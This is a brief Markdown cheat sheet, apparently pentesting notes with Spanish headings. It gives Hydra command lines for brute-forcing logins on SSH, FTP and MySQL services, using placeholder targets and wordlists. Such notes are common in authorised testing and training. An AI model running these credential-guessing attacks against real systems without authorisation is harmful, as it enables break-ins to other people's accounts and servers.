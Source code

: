 ```yaml
---
tags: ["hydra", "brute-force", ssh, ftp, mysql]
inputs: ["ip", "users_wordlist", "passwords_wordlist"]
---
```

# Hydra

## Ataque SSH
```bash
hydra -L <users_wordlist> -P <passwords_wordlist> ssh://<ip>
```
## Ataque FTP
```bash
hydra -L <users_wordlist> -P <passwords_wordlist> ftp://<ip> 
```
## Ataque MySQL
```bash
hydra -L <users_wordlists> -P <passwords_wordlist> mysql://<ip>
```